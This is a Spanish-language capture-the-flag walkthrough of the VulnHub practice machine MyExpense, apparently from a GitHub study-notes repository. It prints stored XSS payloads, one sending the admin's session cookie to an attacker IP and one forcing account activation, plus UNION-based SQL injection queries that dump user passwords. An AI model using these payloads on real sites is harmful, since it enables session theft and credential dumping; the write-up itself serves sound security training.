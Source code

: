 # MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense1.jpg?raw=true">
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense2.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense3.jpg?raw=true">

Intentamos hacer login pero nuestra cuenta está deshabilitada

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense4.jpg?raw=true">

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense5.jpg?raw=true">

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense6.jpg?raw=true">


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
python3 -m http.server 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense7.jpg?raw=true">
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense8.jpg?raw=true">

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense9.jpg?raw=true">
esperamos un poco y voilá! se activó!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense10.jpg?raw=true">

### Enviando la solicutid de pago
Una vez en el perfil de Samuel, aceptamos el envío de la solicitud de los 750€. Parece que el manager Manon Riviere debe aprobar esto. para ello deberemos robarle la sesión.  
Parece que tienen un chat en común, así que aprovecharemos el textbox para hacer un robo de sesión con cookies.  
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense11.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense12.jpg?raw=true">

Una vez en el perfil, aceptamos la solicitud.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense13.jpg?raw=true">

### SQL Injection
La solicitud está aceptada pero tiene que ser aprobada por un financial aprover, que el financial aprover de este usuario es: Paul Baudouin.
En Rennes, vemos lo que parece una consulta a una BBDD, y en la URL también parece indicarlo. probaremos una inyección SQL
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense14.jpg?raw=true">

lo primero es determinar el numero de columnas
```
ORDER BY 2
```
Después determinar las bases de datos, tablas, columnas
```
UNION SELECT schema_name,null FROM information_schema.schemata-- -
UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema="myexpense"-- -
UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema="myexpense" and table_name="user"-- -
UNION SELECT username, password from user-- -

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense15.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense16.jpg?raw=true">

## Decrypt password
necesitamos desenccriptar la password de Paul Baudouin. nos dirigimos a cualquiera de estas webs:  
<a href="https://crackstation.net/">Crackstation</a>
<a href="https://hashes.com/en/decrypt/hash">Hashes</a>  

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense17.jpg?raw=true">

## Final
Ya solo queda aprobar la derrama desde el usuario financial aprover.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense18.jpg?raw=true">

